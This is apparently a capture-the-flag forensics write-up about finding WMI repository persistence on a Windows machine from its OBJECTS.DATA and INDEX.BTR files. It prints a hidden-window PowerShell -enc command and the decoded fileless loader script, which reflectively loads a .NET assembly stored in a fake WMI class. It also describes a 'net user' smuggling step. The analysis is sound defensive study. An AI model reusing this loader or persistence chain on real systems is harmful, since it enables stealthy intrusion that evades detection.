








# Day 11 — After Hours

## Summary

Bar closed. Guests asleep. Something on the network just clocked in for a shift off the rotation.

## Objective

Something is persisting on the resort's back-office machine outside normal hours, with nothing showing up in Startup, Scheduled Tasks, or Run keys. Working offline from three raw repository files, I need to find where it's hiding, extract its payload, and recover the flag.

## Tools / Techniques / Threat Vectors

- **`strings`** (with both default ASCII and `-e l` for UTF-16LE) — the first and fastest way to surface anything human-readable inside binary data without needing to understand the underlying file format yet.
- **WMI Repository forensics** — `OBJECTS.DATA`, `INDEX.BTR`, and `MAPPING*.MAP` together make up the WMI CIM repository, normally living at `C:\Windows\System32\wbem\Repository\`. It's a legitimate Windows management database that's also a well-known, low-visibility persistence spot, since it doesn't show up in Startup, Scheduled Tasks, or Run keys.
- **PowerShell `-EncodedCommand` (`-enc`)** — a common obfuscation technique where the actual script is hidden as a Base64-encoded, UTF-16LE string, so it doesn't trip simple keyword-based log searches.
- **Fileless / reflective loading** — the payload chain here never touches disk as a standalone executable. It's Base64-decoded, Deflate-decompressed, and loaded directly into memory as a .NET assembly via `[Reflection.Assembly]::Load()`, which is why nothing shows up in a normal file-based sweep.
- **CyberChef** — used to replicate, step by step, exactly what the malicious PowerShell was doing to its payload (`From Base64` → `Raw Inflate` → `Strings`), so I could see the same decoded output an attacker's script would have produced at runtime.
- **Living-off-the-land smuggling** — the final payload used the built-in `net user ... /add` command to plant a suspicious value disguised as a Windows account password, a technique for slipping data past log review since it looks like routine account administration.

## Steps Taken

1. In this room, I'm doing forensics on a Windows-based machine's remnants — but instead of a live filesystem, I'm handed just three files: `OBJECTS.DATA`, `INDEX.BTR`, and a `MAPPING*.MAP` file. These three together are the **WMI (Windows Management Instrumentation) repository**, a core database Windows uses to store system management data, class definitions, and operational metadata. It's not something most people ever interact with directly, which is exactly why it makes a good hiding spot.

    

    These files are binary and not meant to be read directly, so rather than trying to hand-parse the CIM format, I started with the simplest tool available: `strings`, piped into `grep` for something specific — in this case, `powershell`, since if anything malicious was persisting here, it was likely to be invoking PowerShell at some point.

    
    
    

    That single grep was enough to surface a lead across both the `.BTR` and `.DATA` files: a `cmd /C powershell.exe -Sta -Nop -Window Hidden -enc ...` command, with a long Base64 blob as its payload.

    ```bash
    cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQBzAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBIAGEAcgBkAHcAYQByAGUAVABlAGwAZQBtAGUAdAByAHkAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAG4AZgBpAGcARABhAHQAYQAnAF0ALgBWAGEAbAB1AGUAOwANAAoAJABvACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQA7AA0ACgAkAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEQAZQBmAGwAYQB0AGUAUwB0AHIAZQBhAG0AKABbAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtAF0AWwBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGYAaQBsAGUAKQAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApADsADQAKACQAYgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AKAAxADAAMgA0ACkAOwANAAoAJAByACAAPQAgACQAZAAuAFIAZQBhAGQAKAAkAGIALAAwACwAMQAwADIANAApADsADQAKAHcAaABpAGwAZQAoACQAcgAgAC0AZwB0ACAAMAApAHsADQAKACAAIAAgACAAJABvAC4AVwByAGkAdABlACgAJABiACwAMAAsACQAcgApADsADQAKACAAIAAgACAAJAByACAAPQAgACQAZAAuAFIAZQBhAGQAKAAkAGIALAAwACwAMQAwADIANAApADsADQAKAH0ADQAKAFsAUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAJABvAC4AVABvAEEAcgByAGEAeQAoACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsAEAAKAAsAFsAcwB0AHIAaQBuAGcAWwBdAF0AQAAoACkAKQApAHwATwB1AHQALQBOAHUAbABsAA==
    ```

    PowerShell's `-EncodedCommand` flag doesn't just Base64-encode plain ASCII — it encodes UTF-16LE text, which is why decoding it naively just gives back a mess of null-byte-separated characters. Once I accounted for that and cleaned it up, the real script underneath was:

    ```powershell
    $file = ([WmiClass]'ROOT\cimv2:Win32_HardwareTelemetry').Properties['ConfigData'].Value;
    $o = New-Object IO.MemoryStream;
    $d = New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress);
    $b = New-Object Byte[](1024);
    $r = $d.Read($b,0,1024);
    while($r -gt 0){
        $o.Write($b,0,$r);
        $r = $d.Read($b,0,1024);
    }
    [Reflection.Assembly]::Load($o.ToArray()).EntryPoint.Invoke($null,@(,[string[]]@()))|Out-Null
    ```

    Reading through this told me exactly what to hunt for next. It wasn't malware sitting somewhere on disk — it was a **fileless loader**. The script reaches into WMI, grabs a property called `ConfigData` off a fake, custom-made class named `Win32_HardwareTelemetry` (dressed up to look like a legitimate `Win32_` class), Base64-decodes it, decompresses it with raw Deflate, and reflectively loads the resulting bytes directly into memory as a .NET assembly — never touching disk as a standalone `.exe`. That explains why none of the usual persistence locations showed anything: the "malware" here is just data sitting inside the WMI repository itself, and momentary bytes in RAM once triggered.

2. With the loader script fully understood, my next target was obvious: that `ConfigData` property itself, since that's where the real payload lives. I ran `strings` on `OBJECTS.DATA` again, this time grepping for `ConfigData` and `HardwareTelemetry` directly.

    

    That immediately surfaced the actual value being read — a long Base64 blob sitting right next to the `Win32_HardwareTelemetry`/`ConfigData` property names in the repository. To confirm what this blob actually was, I rebuilt the exact same transformation the PowerShell script performs, using CyberChef so I could visually step through each stage:

    ```text
    From Base64
    Raw Inflate
    Strings
    ```

    `Raw Inflate` — not `Zlib Inflate` or `Gunzip` — matters here specifically, because .NET's `DeflateStream` produces headerless raw DEFLATE data, not a zlib or gzip-wrapped stream. Feeding it through the wrong inflate operation just errors out or produces garbage.

    

3. Even with the right recipe, the `Strings` output initially looked like garbage — every readable character was interleaved with the word `NUL`. That's not an error; it's CyberChef's **Raw Bytes** output view spelling out every null byte literally, because the payload's text was stored as UTF-16LE (2 bytes per character), same as the PowerShell `-enc` blob from Step 1.

    

    Switching the output view from **Raw Bytes** to **Text** collapsed those null bytes automatically and gave me clean, readable output. Scanning through it, I found what the loaded .NET assembly was actually doing at runtime: checking the machine name against a hardcoded target, then — if it matched — spawning a hidden `cmd.exe` running a `net user patch <value> /add` command. The "value" being passed as the new account's password wasn't a real password at all — it was another layer of Base64, smuggled through a legitimate-looking Windows account-management command specifically so it wouldn't stand out as an obvious secret in casual log review.

    Decoding that final Base64 string gave me the flag.

    

## What I Learned

This one really drove home how much low-visibility real estate Windows has for persistence outside the places I'd normally think to check — the WMI repository isn't hidden exactly, it's just quiet, and a fake class with a plausible-sounding name like `Win32_HardwareTelemetry` blends in easily among hundreds of legitimate ones. I also got a much better feel for the fileless-loader pattern end to end: Base64 to strip out special characters for safe transport, raw Deflate to shrink the payload, and `Reflection.Assembly.Load()` to run it entirely in memory without ever writing an executable to disk — a chain that's genuinely used in real-world tradecraft, not just CTF flavor. The `net user ... /add` trick was the most interesting individual technique for me, since it's such a simple abuse of a completely mundane built-in command to smuggle data past anyone skimming logs for anything obviously suspicious. And on the tooling side, working through the UTF-16LE null-byte confusion twice (once in raw PowerShell decoding, once in CyberChef's Strings output) reinforced that encoding assumptions are one of the most common places forensic analysis quietly goes wrong.

---